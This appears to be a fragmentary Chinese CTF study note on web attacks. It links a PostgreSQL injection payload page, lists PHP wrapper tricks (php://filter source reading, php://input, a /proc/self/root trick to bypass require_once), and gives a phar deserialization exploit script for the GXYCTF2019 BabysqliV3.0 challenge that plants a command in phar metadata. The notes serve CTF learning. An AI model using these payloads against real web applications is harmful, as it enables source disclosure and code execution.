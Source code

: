 [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL Injection/PostgreSQL Injection.md)

```sql

```





### sql写shell

https://www.cnblogs.com/KevinGeorge/p/8446874.html post





## php相关

### php伪协议

文件包含读源码：php://filter/read=convert.base64-encode/resource=index.php

php://fd/3 访问指定的文件描述符

php://input 访问请求的原始数据的只读流

新版本php可以用**多次软链接来绕过require_once**的判断：/proc/self/root/proc/self/root/.......

### phar伪协议

**phar反序列化：**

file_get_contents();自动反序列化phar://中meta-data储存的信息

*典型例题：[GXYCTF2019]BabysqliV3.0*

exp:

```php
<?php

class Uploader{
	public $Filename;
	public $cmd;
	public $token;
}

$a = new Uploader();
$a->Filename = "test";
$a->token = "GXYeb8a98c788e94834d92995b22bf05f07";
$a->cmd = 'highlight_file("/var/www/html/flag.php");';

echo serialize($a);

$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头
$phar->setMetadata($a); //将自定义meta-data存入manifest 这里存进的就是需要反序列化的对象
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
$phar->stopBuffering();
```
